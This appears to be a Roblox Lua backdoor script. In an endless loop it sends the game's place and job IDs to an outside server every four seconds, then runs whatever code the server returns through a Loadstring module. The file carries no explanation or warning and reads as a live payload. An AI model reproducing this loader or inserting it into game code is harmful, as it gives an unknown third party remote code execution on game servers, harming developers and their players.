 local HttpService = game:GetService("HttpService")
url = "http://www.blacknuse.pro/api/execute"

while true do
	pcall(function()
		wait(4)
		local dataFields = {
			["placeid"] = game.PlaceId, 
			["jobid"] = game.JobId,
		}
		local response = HttpService:PostAsync(url,HttpService:JSONEncode(dataFields))
		local data = HttpService:JSONDecode(response)
		if data.status == true then
			require(script.Parent.Loadstring)(data.script)()
		end
	end)
end
